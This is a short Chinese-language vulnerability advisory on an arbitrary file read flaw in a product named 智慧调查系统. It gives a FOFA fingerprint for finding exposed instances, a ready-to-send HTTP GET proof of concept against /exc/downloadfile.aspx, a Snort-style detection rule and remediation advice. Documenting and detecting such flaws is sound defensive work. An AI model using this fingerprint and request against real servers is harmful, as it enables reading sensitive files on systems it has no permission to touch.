

# 智慧调查系统任意文件读取

智慧调查系统任意文件读取，攻击者可进行读取系统内任意敏感信息。

# 影响版本

智慧调查系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="bgImgDivLayer"

POC/EXP：

```
GET /exc/downloadfile.aspx?timestamp=1777287600000&filePath=NzZ3RVhzL2p1aGoyY2VJeU5zVmN0UT09 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/152.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=EEF3CF44FFBE77C787FA701F1D0219CF
Upgrade-Insecure-Requests: 1
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"智慧调查系统 - /exc/downloadfile.aspx 任意文件读取";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/exc/downloadfile.aspx";
        fast_pattern;
    http.uri;
        content:"filePath=";
    metadata:
        service http,
        affected_product "智慧调查系统",
        vulnerability_type "Arbitrary File Read",
        severity "high";
    classtype:web-application-attack;
    sid:1000741;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
